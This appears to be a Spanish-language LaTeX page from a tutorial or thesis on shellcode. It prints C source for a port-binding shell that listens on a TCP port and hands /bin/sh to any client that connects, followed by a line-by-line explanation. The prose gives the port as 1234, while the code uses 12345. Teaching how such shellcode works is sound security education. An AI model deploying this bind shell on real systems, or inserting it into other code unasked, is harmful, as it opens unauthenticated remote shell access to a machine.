 \documentclass [titlepage, 12pt]{article}
\begin{document}
\lstset{language=C++,caption=$Shellcode$ de vinculaci\'on a un puerto en C,label=fig:portBindingC}
\begin{lstlisting}	
		#include <unistd.h>
		#include <sys/socket.h>
		#include <netinet/in.h>

		int main(void) {
					int new, i, sockfd = socket(AF_INET, SOCK_STREAM,0);
					struct sockaddr_in sin;
					sin.sin_family = AF_INET;
					sin.sin_addr.s_addr = 0;
					sin.sin_port = htons(12345);
					bind(sockfd, (struct sockaddr *)&sin, sizeof(sin));
		 			listen(sockfd, 5);
					new = accept(sockfd, NULL, 0);
					for ( i = 2; i >= 0; i--)
						dup2(new, i);
					char * shell[2];
		 			shell[0] = "/bin/sh";
					shell[1] = 0;
					execve(shell[0], shell, NULL);
		}
\end{lstlisting}

Este c\'odigo vincula un $socket$\footnote{Un socket es un concepto abstracto definido por una direcci\'on IP, un protocolo de transporte y un puerto que permite intercambiar informaci\'on entre dos programas.} al puerto 1234 y ejecuta una $shell$ cuando alguien se conecta a este puerto. Las funciones b\'asicas de este c\'odigo y de la mayor\'ia de c\'odigos que trabajan con $sockets$ realizan las conexiones con $bind()$, $listen()$, $accept()$ y $dup2()$. Para obtener informaci\'on sobre cada una de ellas basta con visualizar las p\'aginas de manuales\footnote{Para ver un manual sobre una funci\'on espec\'ifica, basta con ejecutar en una $shell$ el comando 'man $<$comando$>$'. Un claro ejemplo seria 'man dup2'.} que la mayor\'ia de sistemas $unix$ tienen instaladas por defecto.\\
El funcionamiento de este c\'odigo es el siguiente:\\
Primero se crea un $socket$ que es el que se utilizar\'a como par\'ametro para la funci\'on $accept()$. Al mismo tiempo, se declara otro $socket$ que ser\'a el que utilizar\'a para almacenar el valor de retorno de la funci\'on $accept()$.\\
De la sexta a la novena l\'inea, se declara -l\'inea 6- y se inicializa la estructura de datos necesaria para ejecutar la funci\'on $bind$. Como ya se ha comentado, todos los campos de esta estructura se pueden consultar en las p\'aginas correspondientes de su manual, sin embargo, comentaremos que la constante AF\_ INET especifica que la conexi\'on que se realizar\'a utilizar\'a el protocolo $TCP$. La funci\'on $htons()$ se encarga de convertir el valor entero que recibe de entrada a un formato con el que la funci\'on $bind()$ pueda trabajar.\\
En la l\'inea 11 se ejecuta la funci\'on $listen()$ que mantiene la ejecuci\'on del c\'odigo pausada hasta que se recibe una conexi\'on con los par\'ametros definidos en el $socket$ $sockfd$. Una vez se realiza dicha conexi\'on, \'esta se acepta y se devuelve un $socket$ que identifica la conexi\'on recibida. En las l\'ineas 13 y 14 se ejecuta un bucle tres veces que se encarga de duplicar los descriptores de lectura, escritura y salida de errores. Esto permite que todos los datos que se trasmitan de y hasta la consola ejecutada posteriormente, las pueda visualizar el usuario. Por \'ultimo, en la l\'inea 18 se ejecuta la consola que ser\'a brindada al usuario. \bigskip
\end{document}
